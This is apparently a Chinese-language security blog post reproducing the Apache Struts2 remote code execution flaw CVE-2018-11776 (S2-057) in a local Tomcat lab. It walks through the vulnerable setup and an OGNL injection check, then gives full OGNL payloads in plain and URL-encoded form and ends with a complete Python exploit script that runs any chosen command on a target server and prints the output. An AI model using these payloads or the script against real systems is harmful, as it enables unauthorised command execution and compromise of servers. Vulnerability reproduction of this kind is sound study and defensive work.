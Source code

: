 ```yaml
---
title: CVE-2018-11776漏洞复现
date: 2019-08-2 14:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - CVE-2018-11776
    - struts2
---
```


# 0x01 漏洞概述
2018年8月23日，ApacheStrust2发布最新安全公告，ApacheStruts2 存在远程代码执行的高危漏洞，该漏洞由SemmleSecurity Researchteam的安全研究员汇报，漏洞编号为CVE-2018-11776（S2-057）。

定义XML配置时如果namespace值未设置且上层动作配置（Action Configuration）中未设置或用通配符namespace时可能会导致远程代码执行。
URL标签未设置value和action值且上层动作未设置或用通配符namespace时可能会导致远程代码执行，以及系统命令到服务器系统中去 。

***
# 0x02 影响版本
Apache struts 2.3-Apache struts 2.3.34

Apache struts 2.5-Apache struts 2.5.16 

***
# 0x03 漏洞复现
## 复现环境

* windows 10
* jdk1.8.0_191
* apache-tomcat-7.0.96
* struts-2.3.34

## 环境搭建

首先安装jdk，并配置环境变量，不再赘述

下载 [apache-tomcat](https://tomcat.apache.org/download-70.cgi) 并解压
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802122817.png)

下载 [Struts-2.3.34](http://archive.apache.org/dist/struts/2.3.34/) 解压，并将apps目录下的 `struts2-showcase.war` 复制到tomcat的webapps目录下
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802123100.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802123449.png)

在tomcat下bin目录下运行startup.bat脚本来启动tomcat，启动后自动部署struts2
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802123719.png)

浏览器访问 `http://127.0.0.1:8080/struts2-showcase`，出现如下界面即为部署成功了。
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802123957.png)

正常部署完成struts如上所示，但为了复现struts2-057漏洞，需要修改如下两个文件（tomcat目录下）

* D:\Program Files\Java\apache-tomcat-7.0.96\webapps\struts2-showcase\WEB-INF\src\java\struts-actionchaining.xml
* D:\Program Files\Java\apache-tomcat-7.0.96\webapps\struts2-showcase\WEB-INF\classes\struts-actionchaining.xml

注释掉原来的xml代码，修改如下
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802124843.png)

```
<struts>
	<package name="actionchaining" extends="struts-default">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="redirectAction">
			<param name = "actionName">register2</param>
			</result>	
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">actionChain3</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result>/WEB-INF/actionchaining/actionChainingResult.jsp</result>
		</action>
	</package>
</struts>
```

在tomcat下bin目录下运行shutdown.bat，startup.bat脚本来重启tomcat。
**重启tomcat！！！**
**重启tomcat！！！**
**重启tomcat！！！**
浏览器访问`http://192.168.10.230:8080/struts2-showcase/`,漏洞环境成功搭建

## 漏洞利用
在URL构造ognl表达式，再加上配置文件中的action标签中的name属性值，并以.action结尾
`http://127.0.0.1:8080/struts2-showcase/${(50+50)}/actionChain1.action`
执行完成之后发现跳转到了
`http://127.0.0.1:8080/struts2-showcase/100/register2.action`
执行了ognl 表达式 ${(50+50)},漏洞存在

进一步利用漏洞，弹出计算器，构造payload

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#cmd=@java.lang.Runtime@getRuntime().exec("calc"))}
```
进行URL编码 
```
%24%7b%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%63%74%3d%23%72%65%71%75%65%73%74%5b%27%73%74%72%75%74%73%2e%76%61%6c%75%65%53%74%61%63%6b%27%5d%2e%63%6f%6e%74%65%78%74%29%2e%28%23%63%72%3d%23%63%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%75%3d%23%63%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%2e%28%23%63%6d%64%3d%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%29%7d
```
拼接
```
127.0.0.1:8080/struts2-showcase/%24%7b%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%63%74%3d%23%72%65%71%75%65%73%74%5b%27%73%74%72%75%74%73%2e%76%61%6c%75%65%53%74%61%63%6b%27%5d%2e%63%6f%6e%74%65%78%74%29%2e%28%23%63%72%3d%23%63%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%75%3d%23%63%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%2e%28%23%63%6d%64%3d%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%29%7d/actionChain1.action
```

成功执行
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802131043.png)

## EXP

```
#coding: utf-8
#! python2
import requests
import sys


def expliot(host, command, path):
    '''
    2.3.34版本
    payload1:
    ${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#w=#ct.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream()))).(#w.close())}
    2.3.20版本
    payload2:
    ${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream()))).(#w.close())}
    '''

    str1 = "${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#w=#ct.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('" + command + "').getInputStream()))).(#w.close())}"
    str1 = str1.encode('hex')
    str2 = "${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('" + command + "').getInputStream()))).(#w.close())}"
    str2 = str2.encode('hex')

    # 需要进行URL编码
    payload1 = ""
    for i in range(0, len(str1), 2):
        payload1 += '%' + str1[i:i + 2]

    payload2 = ""
    for i in range(0, len(str2), 2):
        payload2 += '%' + str2[i:i + 2]
    url1 = host + '/' + payload1 + '/' + path
    url2 = host + '/' + payload2 + '/' + path

    res1 = requests.get(url1, allow_redirects=False)
    res2 = requests.get(url2, allow_redirects=False)
    if res1.status_code == 200 and res2.status_code != 200:
        print("Exploit successful:")
        print(res1.content)
    elif res2.status_code == 200 and res1.status_code != 200:
        print("Exploit successful:")
        print(res2.content)
    else:
        print('The target is likely unvulnerable,mabye your struts2 version is too high!')


if __name__ == '__main__':
    if len(sys.argv) < 4:
        print("Usage: python s2-057-exp.py http://www.xxx.com/ {command} {The path such as:actionChain1.action}")
    else:
        expliot(sys.argv[1].strip(), sys.argv[2], sys.argv[3].strip())
```
使用方法：

`python2 struts2.py http://www.xxx.com/ {command} {The path such as:actionChain1.action}`

例如:
`python2 struts2.py http://192.168.50.197:8080/struts2-showcase/ "ipconfig" actionChain1.action`

***
# 参考文章
[CVE-2018-11776漏洞从搭建到复现](http://www.cuittk.cn/2019/01/02/CVE-2018-11776漏洞从搭建到复现/)
